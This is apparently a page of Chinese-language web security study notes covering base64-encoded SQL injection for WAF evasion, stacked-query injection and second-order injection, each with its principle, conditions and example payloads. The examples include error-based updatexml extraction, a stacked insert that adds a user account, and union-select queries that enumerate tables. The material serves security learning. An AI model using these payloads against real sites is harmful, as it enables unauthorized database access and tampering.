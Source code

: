 ##### d. Base64注入

* Base64编码是基于64个可打印字符来表示二进制数据的方法，可打印字符包括**A-Z，a-z，0-9，+，/**，把**不可见字符全部编码为可见字符**，**大大降低传输时出现错误的可能性**

###### ①原理

* 针对传递的参数被base64**加密后的注入点进行注入**，常用于**绕过一些WAF**检测

###### ②注入方法

1. 先将原本参数**解密**，再结合**之前注入手法**进行设计
2. 语句设计完成后，**重新加密**作为参数进行注入

###### ③实例

```sql
1.原参数
	YWRtaW4n
2.解密后进行语句设计
	admin') and updatexml(1,concat(0x7e,database(),0x7e),1) -- qwe		'
3.base64编码后进行注入	        
	YWRtaW4nKSBhbmQgdXBkYXRleG1sKDEsY29uY2F0KDB4N2UsZGF0YWJhc2UoKSwweDdlKSwxKSAtLSBxd2U=
```

##### e. 堆叠注入

###### ①原理

* 将**许多语句**通过**分号**叠加在**一起执行**

###### ②满足条件

1. **mysqli_multi_query支持**，**mysql_query不支持**
2. 使用堆叠注入前，须知道数据库的**表名、列名等**
3. 可能受到**API**或**数据库引擎不支持**的限制

###### ③实例

```sql
#插入数据
	1';insert into users(username,password) value('icq','icq') -- qwe
```

##### f. 二次注入

###### ①原理

* 已**存储的用户恶意输入**被**读取**后，**再次进入到sql查询语句**导致服务端SQL语句被**恶意修改并成功**执行的注入行为

###### ②满足条件

1. 网站在对用户输入**恶意数据**时进行**转义处理**
2. 恶意数据**插入到数据库**时又被**还原并存储**到数据库中
3. 系统**再次调用**该恶意数据并**执行sql查询**时，**没有转义**数据内特殊字符

###### ③实例

```sql
#一个页面，能显示登录后的用户名，这时可以注册不同的payload名的账号，来进行注入
1' and updatexml(1,concat(0x7e,database(),0x7e),1)#

1' order by 5#

-1' union select 1,database(),3,4,5#

-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3,4,5#

```
